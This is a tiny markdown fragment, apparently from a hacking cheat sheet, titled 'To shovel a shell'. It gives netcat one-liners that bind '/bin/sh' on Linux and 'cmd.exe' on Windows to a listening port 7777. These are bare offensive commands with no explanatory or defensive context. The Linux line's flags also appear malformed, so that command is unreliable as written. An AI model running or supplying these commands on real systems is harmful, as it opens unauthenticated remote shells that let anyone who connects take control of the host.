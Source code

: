 #### To shovel a shell
**Linux**
```
nc -l nvp 7777 -e /bin/sh
```

**Windows**
```
nc -nvlp 7777 -e cmd.exe
```